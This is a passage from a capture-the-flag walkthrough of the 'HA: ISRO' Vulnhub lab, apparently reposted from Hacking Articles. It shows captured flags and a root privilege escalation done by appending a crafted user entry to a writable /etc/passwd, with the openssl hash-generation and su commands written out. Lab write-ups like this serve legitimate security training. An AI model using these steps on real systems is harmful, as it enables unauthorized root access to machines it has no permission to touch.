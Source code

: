 **Mangalyaan Flag:{d8a7f803e36f1c84e277009bf2c0f435}**

![](https://i1.wp.com/1.bp.blogspot.com/-2SuRmdqTjqM/XatDR7Q-YII/AAAAAAAAhDY/IWXeD8mBgoEE1FGiA1duV6N5dDV2hvwuwCLcBGAsYHQ/s1600/21.png?w=687&ssl=1)

### **Privilege Escalation**

As a part of our Enumeration for Escalating Privilege on the target machine, we try to find if the /etc/passwd is writable. We can see that the file is, in fact, writable. This is our way to move forward.

```
ls -la /etc/passwd
```

![](https://i1.wp.com/1.bp.blogspot.com/-IzLYFzF1JrI/XatDSPFnnHI/AAAAAAAAhDU/fNfIGGMwcQEo4mtsuuHVqbnBJF9VNsnhwCLcBGAsYHQ/s1600/22.png?w=687&ssl=1)

Now we going to need the password hash for the user that we are going to create on the target machine by making an entry in the /etc/passwd file. We are going to use the openssl to generate a salted hash.

```
openssl passwd -1 -salt user3 pass123
```

![](https://i1.wp.com/1.bp.blogspot.com/-zJhJG7J5IM4/XatDSc-5aXI/AAAAAAAAhDc/GXy70z7fuvEknaShNH-MTJM8Eux2LxQAgCLcBGAsYHQ/s1600/23.png?w=687&ssl=1)

Now back to our remote shell on the target machine. Here we are going to use the hash that we generated in the previous step and make a user raj which has the elevated privilege. We used the echo command to make an entry in the /etc/passwd file. After making an entry we checked the entry using the tail command. Now, all we got to do is run su command with the user name we just created and enter the password and we have the root shell. We traversed inside the root directory to find our final flag, Chandrayaan Flag.

```
echo 'raj:$1$user3$rAGRVf5p2jYTqtq0W5cPu/:0:0::/root:/bin/bash' >>/etc/passwd  
tail /etc/passwd  
su raj  
Password: pass123  
cd /root  
ls  
cat final.txt
```

**Chandrayaan Flag:{0ad8d59efe7ce5c820aa7350a5d708b2}**

![](https://i1.wp.com/1.bp.blogspot.com/-AcDhf80elEE/XatDS0JhALI/AAAAAAAAhDg/VgH45BZI_EYnudhiu15_5Vda16MBmKBlACLcBGAsYHQ/s1600/24.png?w=687&ssl=1)

**Author: Pavandeep Singh** is a Technical Writer, Researcher and Penetration Tester Contact [**here**](https://www.linkedin.com/in/pavandeep-singh-6b1074132)

The post [HA: ISRO Vulnhub Walkthrough](https://www.hackingarticles.in/ha-isro-vulnhub-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/2MZ87LX